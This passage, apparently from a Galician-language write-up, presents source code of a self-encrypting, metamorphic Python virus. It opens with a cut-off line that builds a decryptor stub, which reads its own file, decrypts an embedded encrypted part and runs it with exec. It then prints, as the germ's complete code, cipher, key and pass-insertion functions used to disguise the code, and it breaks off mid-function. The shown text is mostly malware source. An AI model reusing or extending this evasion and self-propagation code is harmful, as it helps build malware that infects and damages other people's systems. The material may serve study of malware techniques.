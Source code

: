 ```python
                descrifrador = "import sys" + chr(10) + "portador = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "texto_portador = portador.read()" + chr(10) + "portador.close()" + chr(10) + "parte_sin_cifrar = texto_portador[texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + "):texto_portador.find(" + chr(34) + "def calcula_clave" + chr(34) + ")+" + str(len(parte_en_claro_modificada)) + "]" + chr(10) + "clave = calcula_clave(texto_portador)" + chr(10) + "texto_descifrado = descifra(" + chr(34) + chr(34) + chr(34) + parte_crifrada + chr(34) + chr(34) + chr(34) + ", clave)" + chr(10) + "exec(texto_descifrado)" + chr(10) + "executa(parte_sin_cifrar + texto_descifrado)"
                script.write(descrifrador)
            script.close()
```

O resto de funcións do xerme (calcula_clave, descifra, cifra, payload e executa) e código global non se modificaron. 
Dito isto, o código completo deste xerme é o seguinte:
```python
def calcula_clave(texto):
    if len(texto) >= 3:
        clave = ord(texto[0]) + ord(texto[1]) + ord(texto[2])
    else:
        clave = 42
    return clave


def descifra(texto, clave):
    texto_descifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_descifrado += chr((ord(caracter) - clave - 65) % 26 + 65)
        elif caracter.islower():
            texto_descifrado += chr((ord(caracter) - clave - 97) % 26 + 97)
        else:
            texto_descifrado += caracter
    return texto_descifrado


def cifra(texto, clave):
    texto_cifrado = ""
    for caracter in texto:
        if caracter.isupper():
            texto_cifrado += chr((ord(caracter) + clave - 65) % 26 + 65)
        elif caracter.islower():
            texto_cifrado += chr((ord(caracter) + clave - 97) % 26 + 97)
        else:
            texto_cifrado += caracter
    return texto_cifrado


def borra_pass(codigo):
    codigo_sen_pass = []
    for linha in codigo.split(chr(10)):
        if not "pass" in linha:
            codigo_sen_pass.append(linha)
    return chr(10).join(codigo_sen_pass)


def calcula_tabulacion(codigo, posicion):
    if "else" in codigo[posicion] or "elif" in codigo[posicion]:
        return len(codigo[posicion]) - len(codigo[posicion].lstrip()) + 4
    return len(codigo[posicion]) - len(codigo[posicion].lstrip())


def engade_pass(codigo):
    import random
```
